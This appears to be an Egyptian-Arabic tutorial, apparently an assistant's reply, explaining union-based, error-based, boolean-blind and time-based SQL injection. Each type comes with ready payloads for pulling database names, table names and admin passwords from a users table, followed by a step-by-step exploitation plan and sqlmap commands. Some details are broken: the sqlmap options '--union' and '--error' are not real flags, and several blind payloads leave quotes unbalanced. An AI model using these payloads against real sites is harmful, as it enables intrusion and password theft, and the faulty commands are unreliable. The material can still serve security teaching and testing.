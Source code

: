 # **1. Union-Based SQL Injection**
#### **إيه هو؟**
دا نوع بيستخدم أمر `UNION` في SQL عشان يربط بين نتايج استعلام عادي واستعلام إنت بتعمله عشان تسحب بيانات زيادة من الداتابيز.

#### **ازاي بيشتغل؟**
لازم تعرف عدد الأعمدة في الاستعلام الأصلي، وبعدين تستخدم `UNION` عشان تضيف استعلامك. لو الموقع بيظهر النتايج، هتقدر تسحب بيانات مباشرة.

#### **مثال عملي:**
1. **اختبار عدد الأعمدة:**
   ```
   ' ORDER BY 1 --
   ' ORDER BY 2 --
   ' ORDER BY 3 --
   ```
   لو الصفحة اشتغلت عند `ORDER BY 2` ورمت خطأ عند `3`، يبقى في عمودين.

2. **اختبار الثغرة:**
   ```
   ' UNION SELECT 1, 2 --
   ```
   لو ظهرت "1" و "2" في الصفحة، يبقى UNION شغال.

3. **سحب بيانات:**
   - اسم الداتابيز:
     ```
     ' UNION SELECT 1, database() --
     ```
   - أسماء الجداول:
     ```
     ' UNION SELECT 1, table_name FROM information_schema.tables --
     ```
   - بيانات اليوزرز:
     ```
     ' UNION SELECT 1, CONCAT(username, ':', password) FROM users --
     ```

#### **خلاصة طريفة:**
تخيل إنك في مطعم بتقول للجرسون "هاتلي الأكل بتاعي وكمان الأكل بتاع الطاولة التانية عشان أنا جعان"، لو الجرسون سمع الكلام وجابلك كل حاجة، يبقى لقيت الكنز بتاع الداتابيز!

---

### **2. Error-Based SQL Injection**
#### **إيه هو؟**
النوع ده بيعتمد على استغلال رسايل الخطأ اللي الداتابيز بترجعها لما تحصل مشكلة في الاستعلام. الموقع لو مش متأمن كويس، هيظهرلك الخطأ ومعاه معلومات زي اسم الداتابيز أو الجداول.

#### **ازاي بيشتغل؟**
بتعمل استعلام غلط متعمد عشان تخلي الداتابيز ترمي خطأ يكشف بيانات.

#### **مثال عملي:**
1. **اختبار الثغرة:**
   ```
   ' AND EXTRACTVALUE(1, CONCAT(0x3a, database())) --
   ```
   لو ظهر خطأ زي: `XPATH syntax error: ':mysql'`, يبقى اسم الداتابيز `mysql`.

2. **سحب اسم جدول:**
   ```
   ' AND EXTRACTVALUE(1, CONCAT(0x3a, (SELECT table_name FROM information_schema.tables LIMIT 0,1))) --
   ```
   لو الخطأ رجع اسم جدول زي `users`، يبقى تمام.

#### **نصيحة:**
الـ `0x3a` دي عبارة عن رمز للـ `:` في Hex، بتستخدمها عشان تفرق بين الخطأ والبيانات.

#### **خلاصة طريفة:**
تخيل إنك بتزعق لصاحبك "قوللي سرك غلط عشان أعرف هو إيه!"، لو هو رد وقال "ما اقدرش أقول السر: فلوسي في البنك"، يبقى كده عرفت السر من غير ما يقصد!

---

### **3. Blind SQL Injection (Boolean-Based)**
#### **إيه هو؟**
النوع ده بيحصل لما الموقع مش بيظهر نتايج أو أخطاء مباشرة، فبتسأل الداتابيز أسئلة "صح أو غلط" (True/False) وبتعرف الإجابة من رد الصفحة.

#### **ازاي بيشتغل؟**
بتستخدم شروط زي `AND` أو `SUBSTRING` عشان تستنتج البيانات حرف بحرف.

#### **مثال عملي:**
1. **اختبار الثغرة:**
   ```
   ' AND 1=1 --
   ```
   لو الصفحة ردت عادي، يبقى True وفي ثغرة.

2. **استخراج اسم الداتابيز حرف بحرف:**
   ```
   ' AND SUBSTRING((SELECT database()), 1, 1) = 'm --
   ```
   لو الصفحة ردت True (يعني ظهرت زي ما هي)، يبقى الحرف الأول `m`. جرب `2, 1` للحرف التاني وهكذا.

3. **سحب بيانات:**
   ```
   ' AND SUBSTRING((SELECT password FROM users WHERE username='admin'), 1, 1) = 'p --
   ```
   كده بتجمع الباسوورد حرف بحرف.

#### **خلاصة طريفة:**
تخيل إنك بتلعب لعبة "حار وبارد" مع واحد، بتقوله "الفلوس في الدولاب؟"، لو قال "آه" يبقى صح، لو سكت يبقى لأ، وكده تعرف مكان الفلوس خطوة بخطوة!

---

### **4. Time-Based SQL Injection**
#### **إيه هو؟**
زي Blind بس بيعتمد على الوقت. لو الموقع مش بيرد بنتايج أو أخطاء، بتخلي الداتابيز تتأخر في الرد لو الشرط صح.

#### **ازاي بيشتغل؟**
بتستخدم أوامر زي `SLEEP` أو `WAITFOR`، وبتقيس وقت الاستجابة.

#### **مثال عملي:**
1. **اختبار الثغرة:**
   ```
   ' OR IF(1=1, SLEEP(5), 0) --
   ```
   لو الصفحة استنيت 5 ثواني، يبقى الثغرة شغالة.

2. **استخراج حرف بحرف:**
   ```
   ' OR IF(SUBSTRING((SELECT database()), 1, 1) = 'm', SLEEP(5), 0) --
   ```
   لو تأخرت 5 ثواني، يبقى الحرف الأول `m`.

3. **سحب بيانات:**
   ```
   ' OR IF(SUBSTRING((SELECT password FROM users WHERE username='admin'), 1, 1) = 'a', SLEEP(5), 0) --
   ```
   كده بتعرف الباسوورد بالتأخير.

#### **خلاصة طريفة:**
تخيل إنك بتسأل واحد "لو الفلوس معاك استنى 5 ثواني قبل ما ترد"، لو سكت 5 ثواني يبقى الفلوس معاه، لو رد على طول يبقى معاهوش، وكده بتعرف الحقيقة من غير ما ينطق!

---

### **خطوات عملية للاستغلال كـ Pentester**
دلوقتي خطة شاملة لكل نوع:

#### **Union-Based:**
1. اختبر عدد الأعمدة بـ `ORDER BY`.
2. جرب `UNION SELECT 1, 2, 3` حسب عدد الأعمدة.
3. اسحب الداتابيز بـ `database()`.
4. اسحب الجداول من `information_schema.tables`.
5. اسحب البيانات زي `username` و `password`.

#### **Error-Based:**
1. جرب أمر خطأ زي `' AND EXTRACTVALUE(1, CONCAT(0x3a, database())) --`.
2. لو ظهر خطأ مع بيانات، دوّنها.
3. كرر مع جداول أو أعمدة زي `table_name` أو `column_name`.

#### **Blind (Boolean-Based):**
1. اختبر بـ `' AND 1=1 --` و `' AND 1=2 --` للتأكد من الفرق.
2. استخدم `SUBSTRING` عشان تسحب حرف بحرف.
3. دوّن كل حرف لتكوين البيانات.

#### **Time-Based:**
1. اختبر بـ `' OR IF(1=1, SLEEP(5), 0) --`.
2. لو تأخرت، استخدم `SLEEP` مع `SUBSTRING` لسحب البيانات.
3. قيس التأخير لكل حرف وكون النص.

#### **نصيحة:**
استخدم **sqlmap** لكل نوع:
- Union: `sqlmap -u "URL" --union`
- Error: `sqlmap -u "URL" --error`
- Blind/Time: `sqlmap -u "URL" --technique=BT`

---

ها، عايز أعمق أكتر في نوع معين أو أشرح حاجة زي sqlmap بالتفصيل؟